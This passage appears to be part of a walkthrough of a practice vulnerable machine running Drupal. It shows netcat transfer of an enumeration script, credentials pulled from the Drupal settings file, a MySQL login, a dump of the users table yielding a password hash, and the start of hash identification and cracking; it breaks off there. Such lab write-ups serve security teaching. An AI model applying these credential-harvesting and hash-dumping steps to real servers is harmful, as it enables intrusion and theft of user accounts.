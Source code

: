 ```
nc -lvp 3333 > enum.sh
```

Then I sent the file with:

```
nc 192.168.1.104 3333 < enum.sh
```

Then: chmod +x enum.sh
Among other things I found:

```bash
uid=1000(gsuser) gid=1000(gsuser) groups=1000(gsuser),24(cdrom),30(dip),46(plugdev),110(lpadmin
hostname is:
HOSTNAME=dhcppc5
# In the hosts file I find this.
127.0.1.1	droopy.knight139.co.uk	droopy
```

I remembered that every web-server that runs mysql has the logins for it in some file. So after some snooping-around I found the file:

```
/var/www/html/sites/default
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'nimda',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

So I log in to mysql.

```
mysql -u drupaluser -p drupal
password: nimda
SHOW tables;
mysql> SELECT * FROM users;
SELECT * FROM users;
$S$DLx/ePXpg18r5tnZs8aHkngNTWpyjyMLvPvC0gdaEjo4agY8Iyym
```

So I went here: http://www.onlinehashcrack.com/hash-identification.php#res
To identify what type of hash it was.
It turns out it is a SHA-512.
- SHA-512(Drupal)
I study the commands of hashcat and found this:
